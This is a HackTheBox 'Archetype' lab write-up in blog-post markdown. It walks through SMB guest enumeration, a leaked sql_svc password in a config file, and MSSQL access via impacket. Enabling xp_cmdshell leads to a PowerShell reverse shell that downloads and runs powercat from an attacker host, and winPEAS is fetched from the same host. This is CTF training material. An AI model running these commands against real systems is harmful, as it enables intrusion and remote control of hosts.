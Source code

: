 ```yaml
---
layout: post
title: HackTheBox Archetype
subtitle: StartingPoint Archetype Exam WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```



## Summary
![](assets/images/posts/2025-03-06-Archetype/c7aa0835353bb4a42ec1fb12fcdc3a18_MD5.jpeg)
## Target - 10.129.68.227
### Open Port
```bash
nmap -sC -sV -Pn -oN Archetype 10.129.68.227
```
![](assets/images/posts/2025-03-06-Archetype/1e4da9b4abb6d6341988fa1a18d32841_MD5.jpeg)
### SMB Enum (Guest Auth)
```bash
crackmapexec smb 10.129.68.227 -u 'guest' -p '' --shares
crackmapexec smb 10.129.68.227 -u 'guest' -p '' --spider backups --regex .

# ARCHETYPE\sql_svc : M3g4c0rp123
smbclient \\\\10.129.68.227\\backups -U 'guest' --password=''
get prod.dtsConfig
cat prod.dtsConfig
```

![](assets/images/posts/2025-03-06-Archetype/d16001211c17989921ca9d7924123219_MD5.jpeg)![](assets/images/posts/2025-03-06-Archetype/2b3979fe8f0430bac8990e09ff6483da_MD5.jpeg)

### mssql RCE
```bash
impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.68.227 -windows-auth

# xp_cmdshell 활성화
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
# oneline reverse shell
EXEC xp_cmdshell 'powershell -c "IEX (New-Object System.Net.Webclient).DownloadString(\"http://10.10.14.11:8000/powercat.ps1\");powercat -c 10.10.14.11 -p 4444 -e powershell"';
```

![](assets/images/posts/2025-03-06-Archetype/9c5ab89e51a73bef43ca35e9513680a4_MD5.jpeg)![](assets/images/posts/2025-03-06-Archetype/ddd88b5c3111a3ccd4219434fe508f7a_MD5.jpeg)

### winPEAS
```powershell
iwr -uri http://10.10.14.11:8000/winPEASx64.exe -OutFile winPEAS.exe
.\winPEAS.exe


```

![](assets/images/posts/2025-03-06-Archetype/6c6a769b01b337f5043407c95d2f9261_MD5.jpeg)![](Pasted%20image%2020250306215106.png)